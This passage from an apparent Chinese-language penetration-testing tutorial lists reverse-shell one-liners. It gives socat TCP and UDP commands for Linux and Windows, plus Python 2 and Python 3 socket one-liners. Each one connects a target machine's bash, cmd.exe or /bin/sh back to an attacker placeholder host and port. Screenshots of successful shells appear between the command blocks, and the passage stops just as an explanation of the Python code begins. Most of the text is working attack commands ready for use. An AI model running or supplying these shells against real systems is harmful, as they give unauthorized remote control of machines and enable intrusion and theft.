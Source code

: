 类似地，当我们想要防止某些命令从标准输入（ `stdin` ）中读取数据时，我们可以将 `stdin` 重定向到 `/dev/null` ，例如 `command < /dev/null` 。这将使得 `command` 不会从 `stdin` 中读取任何输入数据。通常这种做法可以用来避免某些命令在等待输入时被阻塞，或者在不需要输入的情况下强制关闭标准输入。
{% endhideToggle %}

反弹成功效果如下：

![反弹成功1](https://pic.imgdb.cn/item/647c13a2f024cca17327403b.png)
![反弹成功2](https://pic.imgdb.cn/item/647c13a2f024cca1732740ed.png)

## socat 反弹一句话

Socat 是 Linux 下的一个多功能的网络工具，名字来由是 Socket CAT 。其功能与有瑞士军刀之称的 Netcat 类似，可以看做是 Netcat 的加强版。

``` bash
# 攻击机
socat TCP-LISTEN:[Port] -
# 靶机
# linux
socat exec:'bash -i',pty,stderr,setsid,sigint,sane tcp:[LHostIP]:[Port]
# windows
socat.exe exec:'cmd.exe',pty,stderr,setsid,sigint,sane tcp:[LHostIP]:[Port]
```

![socat TCP 反弹成功](https://pic.imgdb.cn/item/647c13a3f024cca173274190.png)

``` bash
# udp反弹
# 攻击机
  socat udp-listen:端口 -
# 靶机
# linux
socat udp-connect:[LHostIP]:[Port] exec:'bash -i',pty,stderr,sane 2>&1>/dev/null &
# windows
socat.exe udp-connect:[LHostIP]:[Port] exec:'cmd.exe',pty,stderr,sane
```

![socat udp 反弹成功](https://pic.imgdb.cn/item/647c13a3f024cca173274224.png)

## python 反弹一句话

``` bash
# 靶机
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LHostIP]",[Port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
# 如果是python3 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LHostIP]",[Port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

实际上这段代码相当于执行了一个 python 脚本：

